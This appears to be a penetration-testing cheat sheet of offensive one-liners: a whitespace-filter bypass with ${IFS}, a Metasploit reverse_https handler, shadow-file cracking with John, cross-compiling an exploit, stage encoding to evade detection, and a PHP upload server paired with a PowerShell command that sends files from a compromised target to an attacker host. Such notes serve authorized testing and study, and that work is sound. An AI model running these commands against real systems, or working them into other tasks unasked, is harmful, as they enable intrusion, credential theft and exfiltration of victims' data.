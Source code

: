 # Replace Whitespaces in Bash command
Often whitespaces break the http request, but you can use the variable `${IFS}` instead.
Example: Instead of `curl http://localhost`, try `curl${IFS}http://localhost`

# msfconsole one-liner
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST 10.10.10.10; set LPORT 3141; exploit"
```

# Command Line Inventory/Launcher (arsenal)
* see https://github.com/Orange-Cyberdefense/arsenal

# Bad Characters
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
# Windows Ping Scan One-Liner
```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.11.%i > nul && echo 10.10.11.%i is up.
```

# Generate Shellcode from file
```
xxd -p lib.so | tr -d '\n' > lib.hex
# add '0x' before shellcode
```

# unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

# Metasploit 
## multi handler
In case you got a Reverse Shell but the session immediately dies, try to migrate to another process with:
```
set AutoRunScript post/windows/manage/migrate
```

# Cross-Compiling Exploit Code
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o exploit.exe # In case of errors try -lws2_32 flag
```

# Run Windows Binary on Linux
```
wine PE.exe
```

# Render webpages from command line
* cutycapt: http://cutycapt.sourceforge.net/

# Create simple Upload Web Server
1. create /var/www/uploads folder and set owner to www-data
2. create /var/www/html/upload.php with following content
```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $\_FILES['file']['name'];

move_uploaded_file($\_FILES['file']['tmp_name'], $uploadfile)
?>
```
3. Start apache2 server
4. Upload files from target to webserver. Example with powershell
```
powershell -c "iex(new-object system.net.webclient).uploadfile('http://192.168.1.13/upload.php', 'filename')"
```

# Metasploit
Encrypt and encode
```
msf5 exploit(multi/handler) > set EnableStageEncoding true
msf5 exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

